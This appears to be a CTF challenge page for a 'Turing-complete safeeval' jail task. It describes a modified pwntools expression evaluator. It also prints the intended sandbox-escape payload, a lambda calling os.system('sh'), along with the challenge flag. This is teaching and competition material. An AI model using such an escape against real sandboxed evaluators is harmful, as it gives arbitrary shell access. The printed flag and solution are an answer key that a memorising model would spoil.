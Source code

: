# Turing-complete safeeval
## JAIL - Easy
| author | first blood                  | solves | points |
| --- |------------------------------| -- | --- |
| k3v1n | fredd for **thehackerscrew** | 27 | 110 |
### prompt
Hey! We just made a brand new Turing-complete calculator based on a slight modification of `pwnlib.util.safeeval` to allow defining functions, because otherwise it would be Turing-incomplete.

Still we are allowing only pure functions, so there is no security implication right?

Connect via:
`nc safeeval.sdc.tf 1337`

### original specification
Use pwntools's test_expr with the default pwntools _expr_codes list plus MAKE_FUNCTION and CALL_FUNCTION. The exploit is to define a lambda function that runs arbitrary code, like this (pwntools won't recursively check subfunctions):

`(lambda: __import__('os').system('sh'))()`

This is Turing complete because lambda calculus is Turing complete (allow defining functions)

**flag:** `sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}`

### write-ups
1. https://github.com/ninnikukawaii/write-ups/tree/master/San%20Diego%20CTF%202022/jail/turing-complete-safeeval